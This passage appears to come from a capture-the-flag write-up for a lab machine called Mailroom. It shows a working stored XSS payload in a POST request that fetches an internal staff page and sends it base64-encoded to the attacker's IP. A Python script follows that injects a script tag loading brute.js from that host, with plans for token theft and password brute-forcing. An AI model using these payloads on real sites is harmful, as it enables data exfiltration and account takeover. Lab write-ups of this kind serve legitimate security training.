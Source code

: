 We just have to URL encode this entire thing and submit it as part of a POST request.

{% code overflow="wrap" %}
```http
POST /contact.php HTTP/1.1
Host: mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 610
Origin: http://mailroom.htb
Connection: close
Referer: http://mailroom.htb/contact.php
Upgrade-Insecure-Requests: 1



email=user%40user.com&title=%3Cscript%3Evar%20url%20%3D%20%22http%3A%2F%2Fstaff-review-panel.mailroom.htb%2Findex.php%22%3B%0Avar%20attacker%20%3D%20%22http%3A%2F%2F10.10.16.31%2Fout%22%3B%0Avar%20xhr%20%20%3D%20new%20XMLHttpRequest%28%29%3B%0Axhr.onreadystatechange%20%3D%20function%28%29%20%7B%0A%20%20%20%20if%20%28xhr.readyState%20%3D%3D%20XMLHttpRequest.DONE%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28attacker%20%2B%20%22%3F%22%20%2B%20encodeURI%28btoa%28xhr.responseText%29%29%29%0A%20%20%20%20%7D%0A%7D%0Axhr.open%28%27GET%27%2C%20url%2C%20true%29%3B%0Axhr.send%28null%29%3B%3C%2Fscript%3E&message=test
```
{% endcode %}

Then, we would receive a callback with the page contents:

<figure><img src="../../.gitbook/assets/image (228) (3).png" alt=""><figcaption></figcaption></figure>

We have successfully stole the page, and now we can exploit this by stealing the token via NoSQL injection as found earlier. Based on this, we can attempt to send requests to `auth.php` and possibly brute force the password for a user.&#x20;

Since we can use XSS, we can make the webpage process Javascript that is hosted on our HTTP server. First, I created a quick script to send the XSS payload and retrieve the inquiries URL that we need to visit to trigger the payload.

```python
import requests
import re
contact = 'http://10.129.61.14/contact.php'
data = 'email=test@test.com&title=test&message=%3Cscript%20src%3D%22http%3A%2F%2F10.10.16.31%2Fbrute.js%22%3C%2Fscript%3E'
headers = {
	"Content-Type":"application/x-www-form-urlencoded",
}
r = requests.post(contact, data=data, headers=headers)
inquiry = r'href=\"./inquiries/[a-z0-9]{32}.html'
inquiry = str(re.search(inquiry, r.text))
inquiry = str(inquiry.split('"')[1])
inquiry = inquiry[:-1]
inquiry = inquiry[1:]
```